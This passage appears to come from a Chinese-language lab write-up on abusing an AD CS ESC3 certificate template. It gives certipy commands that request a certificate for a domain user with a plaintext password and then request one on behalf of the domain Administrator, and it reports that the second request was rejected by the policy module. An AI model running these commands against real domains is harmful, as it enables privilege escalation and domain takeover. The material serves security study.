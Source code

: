 [![](assets/1708508972-a9bae84a6b2040d6ae22bf26baa095a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170156-b2c0dc76-cfce-1.png)

请求域用户 qxn 的证书

```plain
certipy req -username qxn@penson.org -password Penson@2016 永遠的神 -ca penson-ADCS-CA -target ADCS.penson.org -template PensonESC3
```

[![](assets/1708508972-28bb5a67d94011484a8ee1719a82a9c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170209-ba869eb4-cfce-1.png)

请求 adminstrator 证书

```plain
certipy req -u qxn@penson.org -p Penson@2016 永遠的神 -ca penson-ADCS-CA -target ADCS.penson.org -template User -on-behalf-of 'PENSON\Administrator' -pfx qxn.pfx
```

发现被策略模块拒绝

[![](assets/1708508972-3c5c22dfbec96d741d432c7284ee70e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220170231-c7aaca2a-cfce-1.png)
